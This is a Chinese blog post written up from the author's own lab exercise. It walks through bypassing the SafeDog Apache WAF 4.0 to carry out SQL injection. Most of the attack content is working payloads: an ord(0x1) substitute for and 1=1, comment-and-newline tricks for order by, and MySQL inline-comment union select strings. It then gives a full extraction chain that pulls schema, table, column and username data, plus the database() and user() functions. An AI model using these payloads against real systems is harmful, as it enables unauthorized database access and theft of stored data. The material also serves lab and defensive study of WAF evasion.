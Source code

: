 ```json
{
  "date": "2020-04-20 02:40:00",
  "tags": ['bypass', '安全狗', 'sql注入'],
  "description":"nothing"
}
```


最近虽然比较忙,但是还是想写点技术方面的东西做个记录。

正好给公司攻防环境出了一道web的题加了狗，就试着绕一下分享出来吧.

# 环境预览

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411152727-e55c5b3a-7bc5-1.png)
用了最新版的安全狗apache版本4.0

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153001-412b1776-7bc6-1.png)
漏洞环境

# 绕过and 1=1

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153404-d20f09aa-7bc6-1.png)
and 1=1拦截



![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153425-dead60da-7bc6-1.png)
and ord(0x1) == and True
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153511-fa1c4dc2-7bc6-1.png)
and ord(0x0) == and False

# 绕过 order by 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153559-16b1b170-7bc7-1.png)
正常order by 被咬

在 order 和by之间放点无效字符，然后再换个行

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411153729-4c5d9744-7bc7-1.png)

```sql
order /*|--|*/--+%20%0Aby 3%23 绕过
```

# 绕过 union select 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411154251-0c305aca-7bc8-1.png)
union select 1,2,3  被咬


这里用内连注释+空语句+注释+换行

注：MySQL数据库为了保持与其他数据库兼容，特意新添加的功能。 为了避免从MySQL中导出的SQL语句不能被其他数据库使用，它把一些 MySQL特有的语句放在 /*! ... */ 中，这些语句在不兼容的数据库中使用时便 不会执行。而MySQL自身却能识别、执行。  /*50001 */表示数据库版本>=5.00.01时中间的语句才会执行。 

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155107-33b812bc-7bc9-1.png)

```sql
 /*!union*/ /*!*/ --+1%0Aselect 1,2,3 %23 绕过
```

# 获取数据

不演示被咬的了...

到了这里就比较简单了

内连注释+空语句+注释+换行 可绕所有

### 查库

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155459-be4761c6-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!schema_name*/) /*!from*/ information_schema.schemata--+*/%23
```

### 查表

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155539-d60cffc8-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!table_name*/) /*!from*/ information_schema.tables where table_schema=0x747261696E--+*/%23
```

### 查字段

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155624-f087b3f2-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT 1,2,concat(/*!column_name*/) /*!from*/ information_schema.columns where table_name=0x7573657273--+*/%23
```

### 查数据

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411155258-75fef2da-7bc9-1.png)

```sql
/*!union*//*!*/--+1%0A%0ASELECT%201,2,concat(/*!username*/)%20/*!from*/%20users--+*/%23
```

### 系统函数

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160010-7755eeda-7bca-1.png)
![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20200411160031-842ab618-7bca-1.png)

这里常规的方法还是被咬，但是用变量处理一下就直接过了。


```sql
/*!union*//*!*/--+1%0ASELECT 1,@s:=database/**/(),1%23

/*!union*//*!*/--+1%0ASELECT 1,@s:=user/**/(),1%23
```